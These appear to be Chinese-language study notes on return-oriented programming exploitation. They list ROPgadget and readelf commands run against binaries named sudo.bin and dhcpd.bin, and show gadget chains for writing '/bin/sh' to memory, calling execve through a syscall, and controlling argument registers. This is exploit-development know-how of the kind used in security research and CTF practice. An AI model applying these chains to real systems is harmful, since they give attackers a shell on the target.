 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary sudo.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary sudo.bin --only "mov|ret"
ROPgadget --binary sudo.bin --only "mov|pop|ret"
ROPgadget --binary sudo.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S dhcpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
```

调用sys（设置参数rdi）
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rsi"
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "eax"
ROPgadget --binary dhcpd.bin | grep "syscall"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
```


## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
